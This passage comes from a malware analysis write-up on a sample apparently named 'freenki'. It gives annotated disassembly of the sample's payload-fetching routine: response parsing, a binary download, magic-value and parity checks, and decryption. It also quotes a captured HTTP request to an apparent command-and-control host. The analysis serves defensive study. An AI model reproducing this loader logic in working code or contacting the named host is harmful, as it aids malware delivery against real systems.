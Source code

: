 In `NewPayloadProcess`, it will call to the server with code=0x33, then it will look for `\r\n` in the previous request.

```nasm
01302431   .  8BD9          MOV EBX,ECX
01302438   .  68 CCF83101   PUSH OFFSET 0131F8CC                                    ; \r\n in ascii
0130243D   .  53            PUSH EBX
0130243E   .  8BF3          MOV ESI,EBX
01302440   .  E8 B02A0000   CALL strfind
```

Then it will check if the first byte is 0x31 or `1` in ascii.

```nasm
01302490   .  66:833B 31    CMP WORD PTR DS:[EBX],31
```

Then it will get the rest of the data to another function. In this function, it will connect to the address stored in `DS:[EBX+1]` and get some data. Just the same thing, but this time, the headers are a little different.

```
GET:/hello_world
{ host: 'old.jrchina.com',
  'x-real-ip': '42.119.12.160',
  'x-forwarded-for': '42.119.12.160',
  connection: 'close',
  accept: '*/*',
  'user-agent':
   'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/6.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; Tablet PC 2.0; .NET4.0E; InfoPath.3)' }
```

It has `accept: '*/*'` and using `GET` now. I don't know why, but there's a change in the request. Then it will do a few checks with the returned data,

```nasm
013022DE  |.  E8 5DEFFFFF   CALL FetchBinary
013022E3  |.  8BF8          MOV EDI,EAX
013022E5  |.  85FF          TEST EDI,EDI
013022E7  |.- 0F84 0C010000 JZ 013023F9
013022ED  |.  8BB5 F4FBFFFF MOV ESI,DWORD PTR SS:[EBP-40C]
013022F3  |.  83FE 64       CMP ESI,64
013022F6  |.- 0F8C F4000000 JL 013023F0
013022FC  |.  813F 504E4746 CMP DWORD PTR DS:[EDI],46474E50
01302302  |.- 0F85 E8000000 JNE 013023F0
01302308  |.  8D56 FB       LEA EDX,[ESI-5]
0130230B  |.  8D4F 05       LEA ECX,[EDI+5]
0130230E  |.  8995 F4FBFFFF MOV DWORD PTR SS:[EBP-40C],EDX
01302314  |.  E8 87EEFFFF   CALL parity_check                                       ; [freenki.parity_check
01302319  |.  3A47 04       CMP AL,BYTE PTR DS:[EDI+4]
0130231C  |.- 0F85 CE000000 JNE 013023F0
01302322  |.  8D4F 05       LEA ECX,[EDI+5]
01302325  |.  E8 F6EDFFFF   CALL decrypt                                            ; [freenki.decrypt
```
